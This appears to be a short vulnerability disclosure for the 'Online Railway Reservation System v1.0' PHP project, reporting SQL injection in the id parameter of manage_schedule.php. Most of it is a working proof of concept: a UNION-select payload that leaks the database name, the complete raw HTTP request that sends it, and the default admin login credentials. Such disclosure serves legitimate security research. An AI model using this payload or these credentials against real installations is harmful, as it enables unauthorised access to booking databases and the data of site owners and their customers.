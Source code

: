 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/admin/schedules/manage_schedule.php?id=

Vulnerability location: /orrs/admin/schedules/manage_schedule.php?id=, id

Current database name: orrs_db,length is 7

[+] Payload:  /orrs/admin/schedules/manage_schedule.php?id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ // Leak place ---> id
```sql
GET /orrs/admin/schedules/manage_schedule.php?id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/172335748-ac131c0d-25c8-4d58-929a-7154ce948f01.png)

![image](https://user-images.githubusercontent.com/54017627/172335500-90c41342-3de7-4f83-b582-7263d95bf406.png)
